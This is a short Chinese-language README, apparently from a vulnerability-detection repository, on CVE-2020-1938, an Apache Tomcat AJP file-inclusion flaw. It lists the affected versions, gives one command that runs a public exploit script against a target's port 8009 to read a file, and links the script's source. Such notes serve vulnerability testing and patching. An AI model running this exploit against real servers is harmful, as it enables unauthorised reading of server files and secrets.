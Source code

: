# CVE-2020-1938 Apache Tomcat 文件包含

影响版本：  
Tomcat6-9  

Exp：
```
python CNVD-2020-10487-Tomcat-Ajp-lfi.py x.x.x.x -p 8009 -f urfile
```
![image](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Tomcat/CVE-2020-1938/ajp.png)


[@YDHCUI](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)